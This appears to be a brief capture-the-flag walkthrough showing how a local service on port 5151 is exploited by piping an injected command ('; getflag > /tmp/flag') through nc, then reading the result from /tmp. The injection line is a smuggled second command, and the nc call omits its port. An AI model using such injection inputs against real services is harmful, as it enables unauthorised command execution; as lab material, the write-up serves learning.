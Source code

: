 
1. `nc 127.0.0.1 5151`
    ```
    Password: test
    Erf nope..
    ```

2.  `echo "; getflag > /tmp/flag" | nc 127.0.0.1`

3. `cat /tmp/flag`